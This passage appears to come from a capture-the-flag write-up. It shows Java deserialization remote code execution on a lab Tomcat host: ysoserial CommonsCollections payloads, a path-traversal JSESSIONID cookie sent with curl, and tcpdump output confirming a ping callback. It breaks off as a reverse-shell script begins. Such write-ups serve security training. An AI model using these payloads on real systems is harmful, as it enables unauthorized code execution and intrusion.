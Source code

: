 I’ll start with a simple `ping` to myself to see if I can get RCE.

    
    
    root@kali# java -jar /opt/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 'ping -c 1 10.10.14.15' > ping.session
    

Now I’ll upload that through the site, and, with `tcpdump` listening, send the
attack:

    
    
    root@kali# curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../opt/samples/uploads/ping"
    <!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> java.lang.Override missing element entrySet</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>java.lang.annotation.IncompleteAnnotationException: java.lang.Override missing element entrySet
            java.base&#47;sun.reflect.annotation.AnnotationInvocationHandler.invoke(AnnotationInvocationHandler.java:83)
            com.sun.proxy.$Proxy5.entrySet(Unknown Source)
    ...[snip]...
    

It crashes, but I don’t get a ping. The crash is expected. The payload won’t
have the data the program expects, and will make it crash. But not getting a
ping means the payload didn’t work.

I’ll repeat the process with `CommonsCollections2`, and I do get a ping:

    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    09:46:24.215875 IP 10.10.10.205 > 10.10.14.15: ICMP echo request, id 1, seq 1, length 64
    09:46:24.215931 IP 10.10.14.15 > 10.10.10.205: ICMP echo reply, id 1, seq 1, length 64
    

I have RCE, and know a payload that works.

#### Shell

To get a shell, I needed to do a bit more playing. It didn’t work with any
commands that had redirection (like `|` or `>`) or stacking commands with `;`.
So I went to the three step approach. I created a simple shell payload Bash
script:

    
    
    #!/bin/bash
    